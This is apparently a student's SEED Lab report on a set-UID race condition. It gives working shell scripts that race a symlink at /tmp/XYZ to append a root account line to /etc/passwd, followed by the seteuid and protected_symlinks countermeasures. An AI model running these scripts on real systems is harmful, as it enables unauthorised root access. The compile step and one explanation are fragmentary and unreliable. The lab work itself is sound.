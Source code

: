 ```yaml
---
title: Race-Condition
date: 2020-01-25 00:09:51
tags: [Security]
categories: [Security]
toc: true
comments: true
---
```


![](images/Race-Condition/Platform-SEEDUbuntu16__04--32bit-green.svg)  ![](images/Race-Condition/SEED-SoftwareSecurityLab-brightgreen.svg)

> This is report of SEED Lab report.

Table of Contents
=================

* [Task 1: Choosing Our Target](#task-1-choosing-our-target)
* [Task 2: Launching the Race Condition Attack](#task-2-launching-the-race-condition-attack)
* [Task 3 Countermeasure: Applying the Principle of Least Privilege](#task-3-countermeasure-applying-the-principle-of-least-privilege)
* [Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme](#task-4-countermeasure-using-ubuntus-built-in-scheme)
* [About fs.protected_symlinks](#about-fsprotected_symlinks)
* [Test with fs.protected_symlinks=1](#test-with-fsprotected_symlinks1)
    * [实验原理:](#实验原理)
* [Official reference](#official-reference)


## Task 1: Choosing Our Target

```SHELL
$ sudo sysctl -w fs.protected_symlinks=0
```

Get the `vulp.c`  and compile it.

```shell
Ta
$ sudo chmod 4755 vulp
```

Analyze the program. Since it is set-UID program, it’s eUID is 0. Then it can overwrite any file. When it wants to modify some file, the program will check whether it has the privilege to do so. Hence there is a short time slice between it accessing the privilege and write the file. If we change the target file it wants to write, then we can overwrite some important file.

Our target is to add a root user, `test`, into the `/etc/passwd`.

```shell
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

After test, we can find that if we add content above to `/etc/passwd`, then we can login test as root user.

So our target is to create a symbol link to `/etc/passwd`.

## Task 2: Launching the Race Condition Attack

We need run two scripts parallel.

```shell
# attack.sh
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
ln -sf /home/seed/Documents/SoftwareSecurity/raceCondition/tmp /tmp/XYZ
ln -sf /etc/passwd /tmp/XYZ
new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"

```

Another script:

```shell
# check.sh
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
./vulp < passwd_input
new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

Before attack, ensure that the `/tmp/XYZ` does not exist and the `password_input` has been created.

then run two scripts you can find it succeeded.

```shell
$ sudo bash attack.sh
$ sudo bash check.sh
```



## Task 3 Countermeasure: Applying the Principle of Least Privilege

The fundamental problem of the vulnerable program in this lab is the violation of the Principle of Least Privilege.  The programmer does understand that the user who runs the program might be too powerful, so he/she introduced `access()`to limit the user’s power. However, this is not the proper approach. A better approach is to apply the Principle of Least Privilege;  namely,  if users do not need certain privilege,  the privilege needs to be disabled. We can use set-euid system call to temporarily disable the root privilege, and later enable it if necessary. Please use this approach to fix the vulnerability in the program, and then repeat your attack. Will you be able to succeed? Please report your observations and provide explanation.

Change the program like below, then compile and attack using this program again. We can find it failed. That is because the `seteuid()` function introduced a code segment where `access()` and `open()` would share the same privilege, so the try would fail.

```c
/* vulp.c */
#include <stdio.h>
#include<unistd.h>
#include<sys/types.h>


int main()
{
	char * fn = "/tmp/XYZ";
	char buffer[60];
	FILE *fp;
	/* get user input */
	scanf("%50s", buffer );

	uid_t e_uid = geteuid(); //new add
	seteuid(getuid()); //new add

	if(!access(fn, W_OK)){ 
		fp = fopen(fn, "a+"); 
		fwrite("\n", sizeof(char), 1, fp);
		fwrite(buffer, sizeof(char), strlen(buffer), fp);
		fclose(fp);
	}
	else printf("No permission \n");
	seteuid(e_uid); //new add
}
```

## Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme

Ubuntu 10.10 and later come with a built-in protection scheme against race condition attacks.  In this task,you need to turn the protection back on using the following commands:

```shell
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
$ sudo sysctl -w fs.protected_symlinks=1
```

Conduct your attack after the protection is turned on.  Please describe your observations.  Please also explain the followings:  

(1) How does this protection scheme work?  

(2) What are the limitations of this scheme?

It will failed, but the details why this scheme would work is still not clear enough.

## About `fs.protected_symlinks`

= 0 means no limitation about normal users creating soft links.

=1 means only when the UID of the target equals to the soft link or the

## Test with `fs.protected_symlinks=1`

### 实验原理:

>##### Official reference
>
>A long-standing class of security issues is the symlink-based time-of-check-time-of-use race, most commonly seen in world-writable directories like /tmp. The common method of exploitation of this flaw is to cross privilege boundaries when following a given symlink (i.e. a root process follows a symlink belonging to another user). For a likely incomplete list of hundreds of examples across the years, please see: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=/tmp
>
>When set to “0”, symlink following behavior is unrestricted.
>
>When set to “1” symlinks are permitted to be followed **only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.**
>
>This protection is based on the restrictions in Openwall and grsecurity.

重点:

When set to “1” symlinks are permitted to be followed **only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.**



